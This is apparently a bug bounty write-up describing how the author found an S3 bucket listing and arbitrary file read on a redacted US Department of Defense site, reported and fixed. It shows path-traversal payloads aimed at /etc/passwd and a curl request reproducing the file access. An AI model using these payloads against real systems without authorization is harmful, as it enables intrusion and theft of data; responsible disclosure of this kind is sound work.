 # How I (Technically) Hacked the Department of Defense

It’s counterintuitive, but one of the most accessible bug bounty programs is the one run by the US Department of Defense. This is probably a consequence of the massive attack service, dated technology (they still mostly use the LAMP stack), and thin IT support. So here’s how I bypassed their web security as a 19-year-old with a MacBook.

In keeping with the DOD policy, I've redacted the names of all sites and changed the names of all endpoints. 

I was poking around some software that supported marine navigation tech when I noticed an interesting endpoint ```https://REDACTED/getAWSFile.php?file=```. I could query a file from it, and it would return the requested file.

Since the site was running LAMP, I figured I would check for [Local File Inclusion (LFI)](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion) bugs, which old PHP applications are sometimes susceptible to. I was running a fuzzing script when I noticed something strange:

```bash
python3 lfi_fuzz.py
../../../etc/passwd                returned 413 B
../../../etc/passwd..........      returned 413 B
%c0%ae%c0%ae/etc/passwd            returned 413 B

[...]

.                                  returned 16024 B 
```

When I fed "." into the query, it returned **~4,000x** more data than it should. I quickly reproduced it with curl:

```bash
curl -i -s -k -X $'GET' \
    -H $'Host: REDACTED.mil' -H $'Accept: */*' \
    -b $'JSESSIONID=<COOKIE>' \
    $'https://REDACTED.mil/getAWSFile.php?file=.'
```

which returned the result:

```xml
<ListBucketResult xmlns="http://s3.amazonaws.com/doc/2006-03-01/">
  <Name>REDACTED</Name>
  <Prefix/>
  <Marker/>
  <MaxKeys>1000</MaxKeys>
  <IsTruncated>false</IsTruncated>
  <Contents>
    <Key>example-object-1.txt</Key>
    <LastModified>2023-01-01T12:00:00.000Z</LastModified>
    <ETag>"1b2cf535f27731c974343645a3985328"</ETag>
    <Size>1024</Size>
    <StorageClass>STANDARD</StorageClass>
  </Contents>
  <Contents>
    <Key>example-object-2.jpg</Key>
    <LastModified>2023-01-02T15:30:00.000Z</LastModified>
    <ETag>"3a5c8b7f2f50d063edebf9cda548579f"</ETag>
    <Size>2048</Size>
    <StorageClass>STANDARD</StorageClass>
  </Contents>

[...]

</ListBucketResult>
```

Clearly, the server was fetching files from an external AWS bucket under the hood. When I fed it the "." character (which stands for 'the current directory' in the Unix shell) the Bucket interpreted it as such and dumped its entire directory listing. Since I now had the full path to every file on the bucket, I could just plug them into the file parameter of the request to read any file on the server.

To test this, I picked a random file, plugged it into the ```getAWSFile.php``` endpoint, and the server returned: 

```
--------------------------------------------------------------------------------

DATABASE:  /REDACTED

All libraries corrected through NTM 11/23 (18 March 2023).


-----GENERAL SCALE LIBRARIES: (2)

LOG 12.23.19
[...]
```

I tried this with a few more files and found that I could see and read *every file on the bucket*. Since the DOD takes their information security pretty seriously, I didn't enumerate any further and reported it. It was triaged and resolved in 72 hours.
